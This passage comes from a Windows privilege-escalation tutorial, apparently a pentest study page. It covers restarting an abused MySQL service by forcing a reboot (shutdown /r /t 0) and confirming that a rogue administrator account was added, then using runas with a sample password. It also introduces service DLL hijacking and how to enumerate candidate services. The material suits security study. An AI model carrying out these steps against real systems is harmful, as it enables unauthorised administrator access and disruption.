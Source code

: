 In the case of mysql, we may not have permission to stop the running service. To work around this, we may want to check if the **Startup Type** of the service is set to **Auto**. In this case, we may be able to restart the service by rebooting the system.

```bash
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```

For a user to perform a reboot, they must have the **SeShutDownPrivilege** privilege.

```bash
whoami /priv
```

If we do not have the privileges to perform the reboot we can proceed in two ways:
- wait for the service to be restarted by others
- or perform a shutdown

**IMPORTANT**: performing a shutdown is not always the best choice!

```bash
shutdown /r /t 0
```

After rebooting you need to verify that the new user has been added.

```bash
Get-LocalGroupMember administrators
```

If the user is in this group the attack was successful and tools like **RunAs** or **msfvenom** can be used to obtain a shell for the new user.

```bash
runas /user:nuovo_utente cmd
password123!
```

## Service DLL Hijacking

**DLL injection** attack consists of inserting a piece of code, structured as a **Dynamic Link Library (DLL)**, into a running process. This technique allows the malicious piece of code to be executed within the context of the process, influencing its behavior or accessing its resources.

There are several ways to exploit this technique, one of which is **DLL Hijacking**.

**DLL Hijacking** is a technique that allows an attacker to exploit the loading process of a Windows DLL. These DLLs can be loaded during runtime, creating a hijacking opportunity if an application does not specify the full path to a required DLL, making it susceptible to such attacks.

Enumeration of running services:

```bash
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

**IMPORTANT**: Most of the time this attack involves those services that have the executable located in folders accessible to the user, if not even in their own directory.
